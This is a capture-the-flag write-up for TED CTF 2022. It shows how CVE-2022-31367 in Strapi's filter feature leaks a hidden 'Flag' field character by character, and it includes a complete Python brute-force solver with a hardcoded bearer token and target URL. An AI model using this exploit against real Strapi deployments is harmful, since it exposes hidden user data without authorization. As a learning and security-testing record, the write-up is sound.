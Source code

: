 # You Can't See Me - TED CTF 2022 

Given access to Strapi dashboard

![[Pasted image 20221110122039.png]]

We try to check each data on dashboard and there is "User" tab in dashoard. Take a look on one of the user we can see that there is suspicous column which is "Flag"

![[Pasted image 20221110122327.png]]

Flag is hidden, given user can't view the hidden data. By using [CVE-2022-31367](https://github.com/kos0ng/CVEs/tree/main/CVE-2022-31367) unauthorized user can abuse the filter feature to get the value of the Flag. Here is the solver to get the flag.
```python
import requests
import json
import string
import urllib.parse

r = requests.session()
url = "http://103.250.10.221:8000/content-manager/collection-types/plugins::users-permissions.user?page=1&pageSize=10&_sort=username:ASC&_where[0][flag_containss]={}"
auth = {"Authorization":"Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MiwiaWF0IjoxNjY4MDU4MzIyLCJleHAiOjE2NzA2NTAzMjJ9.3z8fxPaec8wj_vCDHAWJztPbpXKMfx-4DPTQPxkngjU"}
leak_flag = ""
poss_char = string.printable[:-6].replace("%","")
while True:
	print("Leak : " + leak_flag)
	known_len = len(leak_flag)
	for i in poss_char:
		safe_string = urllib.parse.quote_plus(leak_flag+i)
		tmp_url = url.format(safe_string)
		data = json.loads(r.get(tmp_url,headers = auth).text)
		if(len(data['results']) > 0 ):
			leak_flag += i
			break
	if(known_len==len(leak_flag)):
		break
while True:
	print("Leak : " + leak_flag)
	known_len = len(leak_flag)
	for i in poss_char:
		safe_string = urllib.parse.quote_plus(i+leak_flag)
		tmp_url = url.format(safe_string)
		data = json.loads(r.get(tmp_url,headers = auth).text)
		if(len(data['results']) > 0 ):
			email = data['results'][0]['email']
			leak_flag = i + leak_flag
			break
	if(known_len==len(leak_flag)):
		break
print("Email : " + email)
print("Flag : " + leak_flag)
```

![[Pasted image 20221110123525.png]]
![[Pasted image 20221110123727.png]]
After that just change the format to flag format and got the flag

**Flag  : CTFTED2022{cve-2022-31367-should_be_easy_for_you}**